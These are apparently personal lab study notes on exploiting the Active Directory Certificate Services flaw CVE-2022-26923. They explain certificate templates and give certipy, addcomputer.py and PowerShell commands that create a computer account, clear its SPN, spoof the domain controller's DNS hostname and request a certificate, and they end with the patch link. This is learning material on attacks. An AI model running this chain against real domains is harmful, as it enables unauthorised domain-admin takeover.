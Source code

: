 # ADCS CVE-2022-26923

## ADCS (Active Directory Certificate Services)

This is the CA, PKI from Microsoft. This will be used for delegating trusts (strictly inside the domain) to users and computers.

## Why this is used
- Encrypt the file system
- Digital signature
- **User authentication**

## Certificate templates
- User (Domain users)
	- UPN (User Principal name) --> SAN (Subject Alternative Name) [Authentication, Idenityty]
- machine (Domain computers)
	- **DNSHostname** [Authen (SPN --> Kerberos), Identity]
## Validity write
- DNShostname
- SPN (Service Principal Name) [Admin != Low privilege Accnt]
## Step
- Foothold
- Register on Computer in the DC
- Remove the SPN
- Chnaging the DNShostname
- Get the Certificate with DNShostname of DC --> done!
## Commands
certipy find -u fcastle@marvel.local -p Password1 -bloodhound -dc-ip 192.168.80.139

certipy req -username fcastle@marvel.local -password Password1 -ca MARVEL-HYDRA-DC-CA -target 192.168.80.139 -template User

certipy auth -pfx fcastle.pfx -dc-ip 192.168.80.139

addcomputer.py marvel.local/fcastle:Password1 -method LDAPS -dc-ip 192.168.80.139 -computer-name 'NEW_PC' -computer-pass 'Password1'

certipy req -u NEW_PC$ -password Password1 -ca MARVEL-HYDRA-DC-CA -target 192.168.80.139 -template Machine 

### Powershell commands to run in the low privilege user

- Get-WindowsCapability -Name RSAT.ActiveDirectory* -Online | Add-WindowsCapability -Online
- Get-WindowsCapability -Name RSAT.ActiveDirectory* -Online | Add-WindowsCapability -Online
- Get-ADComputer NEW_PC -properties dnshostname,serviceprincipalname
- Set-ADComputer NEW_PC -serviceprincipalname @{}
- Set-ADComputer NEW_PC -DnsHostName HYDRA-DC.MARVEL.local

## Fixes
https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923



